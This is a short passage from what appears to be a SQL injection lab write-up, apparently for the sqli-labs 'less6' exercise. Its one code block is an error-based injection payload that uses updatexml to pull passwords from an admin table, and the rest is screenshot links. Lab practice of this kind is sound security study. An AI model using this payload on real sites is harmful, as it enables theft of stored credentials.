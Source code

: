 ```sql
# substr(password,10)表示从第10位开始截取后面的内容
' and updatexml('1',concat('~',(
select substr(group_concat(password),10) from admin limit 0,1
)),'1')#
```




# less6

![image-20220115092752014](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115092752014.png)



![image-20220115092817084](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115092817084.png)
